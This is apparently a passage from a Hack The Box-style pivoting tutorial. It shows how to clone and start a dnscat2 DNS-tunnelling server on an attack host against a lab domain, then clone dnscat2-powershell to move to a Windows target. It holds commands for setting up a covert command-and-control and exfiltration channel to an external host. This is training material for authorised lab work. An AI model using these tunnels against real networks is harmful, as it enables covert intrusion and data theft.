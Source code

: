 If dnscat2 is not already set up on our attack host, we can do so using the following commands:
##### Cloning dnscat2 and Setting Up the Server


```shell
c4ndy@htb[/htb]$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

We can then start the dnscat2 server by executing the dnscat2 file.

##### Starting the dnscat2 server 

```shell
c4ndy@htb[/htb]$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```

After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server. We can use the client with the dnscat2 project or use [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell), a dnscat2 compatible PowerShell-based client that we can run from Windows targets to establish a tunnel with our dnscat2 server. We can clone the project containing the client file to our attack host, then transfer it to the target.

##### Cloning dnscat2-powershell to the Attack Host

```shell
c4ndy@htb[/htb]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

